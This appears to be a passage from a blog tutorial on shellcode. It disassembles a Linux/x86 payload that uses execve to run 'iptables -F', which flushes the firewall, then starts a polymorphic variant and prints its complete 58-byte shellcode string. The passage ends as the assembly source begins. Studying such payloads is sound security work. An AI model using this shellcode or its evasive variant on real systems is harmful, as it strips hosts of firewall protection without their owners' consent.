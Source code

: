                             ; array of pointers to command-line arguments:
                            ;   - ebx -&gt; pointer to string '///sbin/iptables'
                            ;   - esi -&gt; pointer to string '-F'
                            ;   - eax -&gt; 0x00000000 (null terminator of the array)
00000020  50                push eax
00000021  56                push esi
00000022  53                push ebx
</code></pre><p>So far, the author of this shellcode pushed the string <code>///sbin/iptables</code> to the stack, saving its pointer into the register <code>EBX</code>, which is going be used by <code>execve</code> as the <strong>1st argument</strong> of <code>iptables</code>.</p><p>Follows the function prototype of <code>execve</code>:</p><pre><code class="language-cpp">int execve(
  // executable to run
  const char *pathname,

  // array of command-line arguments
  char *const argv[],

  // array of environment variables
  char *const envp[]
);
</code></pre><p>In this case <code>EBX</code> is <code>pathname</code>, i.e. a pointer to a string indicating the executable to run.</p><p>While <code>ECX</code> is a pointer to an array of pointers, terminated by the <code>DWORD</code> <code>0x00000000</code>.</p><p>On the stack, it would look like this:</p><pre><code class="language-nasm">; *ebx -&gt; '///sbin/iptables'
; *esi -&gt; '-F'
; 0x00000000
</code></pre><p>Follows the rest of the disassembly:</p><pre><code class="language-nasm">                            ; 2nd argument of execve:
                            ;   pointer to array of pointers to strings acting as
                            ;   command-line arguments of the program
00000023  89E1              mov ecx,esp

                            ; 3rd argument of execve:
                            ;   pointer to array of pointers to env. variables
00000025  89C2              mov edx,eax

                            ; call execve syscall
00000027  B00B              mov al,0xb
00000029  CD80              int 0x80
</code></pre><p>These instructions employ <code>execve</code> to run the command <code>///sbin/iptables -F</code>.</p><h2 id="polymorphic-shellcode">Polymorphic Shellcode</h2><p>Follows the polymorphic version of the shellcode:</p><pre><code class="language-nasm">; Title: Linux/x86 - iptables --flush
; Author: Robert C. Raducioiu
; Web: rbct.it
; Reference: http://shell-storm.org/shellcode/files/shellcode-825.php
; Shellcode: "\x31\xdb\xf7\xe3\x52\x66\xbf\x2d\x46\x66\x57\x89\xe7\x52\xbe\x74\x63\x62\x72\x52\x68\x62\x6c\x65\x73\x68\x1d\x13\x16\x13\x31\x34\x24\x68\x62\x69\x6e\x2f\x68\x5b\x4c\x4d\x01\x31\x34\x24\x89\xe3\x52\x57\x53\xb0\x0a\x40\x54\x59\xcd\x80"
; Length: 58 bytes

global _start

section .text
